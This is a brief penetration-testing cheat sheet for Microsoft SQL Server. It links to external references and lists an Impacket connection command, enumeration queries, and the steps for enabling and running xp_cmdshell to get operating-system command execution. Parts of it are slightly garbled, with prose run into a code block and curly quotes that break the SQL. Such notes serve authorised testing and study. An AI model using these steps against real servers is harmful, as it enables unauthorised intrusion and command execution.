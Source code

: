 
## Good places
[hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)
[pentestmonkey](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

## Warning
Be careful, you can **block accounts** if you fail login several times using an existing username.

## Impacket smb related scripts
If you have credentials:
```bash
# connect to a Microsoft SQL server
mssqlclient.py -port $PORT $domain/$sql_svc 
```

```mssql
SELECT @@version					 	# version check
SELECT DB_NAME()						# current database
SELECT name FROM master..sysdatabases;	# list databases


SELECT is_srvrolemember('sysadmin'); 	# role check

```

## Command Execution
Check if cmdshell is already active
```mssql   
EXEC xp_cmdshell ‘net user’; - privOn MSSQL 2005 you may need to reactivate xp_cmdshell first as it’s disabled by default:
```
Configure to enable
```mssql
EXEC sp_configure ‘show advanced options’, 1; — priv  
RECONFIGURE; — priv  
EXEC sp_configure ‘xp_cmdshell’, 1; — priv  
RECONFIGURE; — priv
```